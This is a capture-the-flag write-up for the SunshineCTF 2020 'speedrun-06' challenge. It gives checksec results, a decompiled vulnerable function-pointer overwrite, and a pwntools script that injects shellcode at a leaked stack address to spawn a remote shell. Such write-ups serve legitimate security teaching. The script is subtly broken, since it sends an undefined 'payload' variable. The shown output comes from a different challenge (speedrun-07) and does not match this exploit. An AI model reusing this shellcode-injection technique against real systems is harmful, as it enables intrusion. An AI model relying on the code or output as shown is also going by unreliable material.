 # **speedrun-06**
## Task
nc chal.2020.sunshinectf.org 30006
File: chall_06
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
* No Canary + NC disabled + RWX assume shellcode BOF
### Decompile with ghidra
```c
void main(void)
{
  char local_d8 [208];
  
  printf("Letting my armor fall again: %p\n",local_d8);
  fgets(local_d8,199,stdin);
  vuln();
  return;
}

void vuln(void)
{
  char local_48 [56];
  code *local_10;
  
  puts("For saving me from all they\'ve taken.");
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}
```
In this challenge, We don't have `win` anymore,but NX disabled so just write out the shellcode to `local_d8` then overwrite `local_10` value  in `vuln` to the address of `local_d8` to execute the shellcode

### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_06')

p = remote('chal.2020.sunshinectf.org',30006)
p.recvuntil('Letting my armor fall again: ')

shelladdr = int(p.recvline().strip(),16)
shellpayload = b''
shellpayload += asm(shellcraft.sh())
p.sendline(payload)

payloadPadding = b'a' * (0x48 - 0x10)
payloadPadding += p64(shelladdr)
p.sendline(payloadPadding)
p.interactive()
```
### Output
Because the server was down for this challenge when I write up so I have no output for it, following here is a output from other author
```bash
[*] '/pwd/datajerk/sunshinectf2020/speedrun-07/chall_07'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30007: Done
[*] Switching to interactive mode
In the land of raw humanity$ id
uid=1000(chall_07) gid=1000(chall_07) groups=1000(chall_07)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8440 Nov  7 07:49 chall_07
-rw-r----- 1 root chall_07   33 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{sidewinder-a80d0be1840663c4}
```

